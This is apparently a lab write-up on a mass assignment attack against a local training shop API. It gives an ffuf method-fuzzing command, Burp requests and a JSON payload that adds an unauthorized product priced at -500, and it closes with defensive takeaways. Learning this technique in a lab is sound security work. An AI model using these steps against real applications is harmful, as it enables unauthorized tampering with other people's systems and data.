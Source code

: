 
---

# 📖 High-Level Summary:

This lab demonstrates a **Mass Assignment Attack** on a web application. By identifying how the server processes POST requests, we inject additional parameters that allow us to manipulate the application's behavior and add unauthorized products.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**Mass Assignment Attack**|Exploiting an application by sending additional fields in a request to manipulate object properties.|Targets unprotected endpoints that automatically map request data to internal objects.|
|**ffuf**|A web fuzzer for discovering vulnerabilities in endpoints.|Used here to test supported HTTP methods (e.g., POST, GET, OPTIONS).|
|**`-X` flag**|Specifies the HTTP method to use during ffuf fuzzing.|Example: `-X POST`.|
|**`-fc` flag**|Filters responses by status codes to ignore specific results.|Example: `-fc 405` excludes "Method Not Allowed" responses.|

---

# 💡 What is Mass Assignment?

**Mass Assignment** is a vulnerability where applications automatically bind client-provided data (e.g., JSON objects) to internal objects or database entries without proper validation or restrictions. Attackers can exploit this by injecting unauthorized fields to manipulate the application's behavior.

- **Why is this a Problem?**
    - Developers often bind input data directly to object models.
    - Without proper safeguards, attackers can modify sensitive fields or introduce malicious data.

**Example in This Lab:**

- By including a new `name`, `price`, and `image_url` in the POST request, we manipulated the application to display an unauthorized product.

---

# 🎯 Steps and Commands:

### Step 1: Investigate the Web Application

1. Navigate to:
    
    ```plaintext
    http://localhost:8888/shop
    ```
    
2. Observe the products (e.g., car seat and wheel) with their prices and images.
    
3. Use Burp Suite to capture traffic and locate the endpoint:
    
    - **Captured Request:**
        
        ```plaintext
        GET /workshop/api/shop/products
        ```
        

---

### Step 2: Fuzz HTTP Methods with ffuf

1. Run ffuf to discover supported HTTP methods:
    
    ```bash
    ffuf -u http://localhost:8888/workshop/api/shop/products -w /usr/share/seclists/Fuzzing/http-request-method.txt -X FUZZ -fc 405
    ```
    
    - **Flags Used:**
        - `-u`: Target URL.
        - `-w`: Wordlist for fuzzing HTTP methods.
        - `-X`: HTTP method to test (e.g., GET, POST).
        - `-fc`: Filters responses with status code 405 ("Method Not Allowed").
2. **Results:**
    
    - Supported Methods:
        
        ```plaintext
        OPTIONS
        HEAD
        GET
        POST
        ```
        

---

### Step 3: Test the POST Method

1. Send a **POST request** to the endpoint in Burp Suite Repeater:
    
    ```plaintext
    POST /workshop/api/shop/products
    ```
    
2. Observe the response:
    
    ```json
    {
      "name": ["This field is required"],
      "price": ["This field is required"],
      "image_url": ["This field is required"]
    }
    ```
    
3. **Key Takeaway:**
    
    - The response reveals required fields for the POST request (`name`, `price`, `image_url`).

---

### Step 4: Exploit Mass Assignment

1. Craft a new POST request with the required fields:
    
    ```json
    {
      "name": "cheesecake",
      "price": "-500",
      "image_url": "http://localhost/path/to/image.jpg"
    }
    ```
    
2. Send the request via Burp Suite Repeater.
    
3. **Response:**
    
    - The product (`cheesecake`) is now displayed on the web application with the manipulated price of `-500`.

---

# 🔍 Why is This Mass Assignment?

1. **Automatic Mapping:**
    
    - The server automatically binds the incoming JSON object (`name`, `price`, `image_url`) to the internal product object without validation.
2. **Unrestricted Data Injection:**
    
    - The application does not validate or restrict the `price` field, allowing us to set an invalid value (`-500`).
3. **Exploited Trust:**
    
    - The server blindly trusts client-provided data, leading to unintended behavior like adding unauthorized products.

---

# ✅ Key Takeaways:

1. **Validation is Critical:**
    - Always validate and sanitize client-provided data before processing.
2. **Restrict Mass Assignment:**
    - Implement allowlists to specify which fields can be updated via requests.
3. **ffuf for Discovery:**
    - Use ffuf to identify supported HTTP methods and discover exploitable endpoints.

---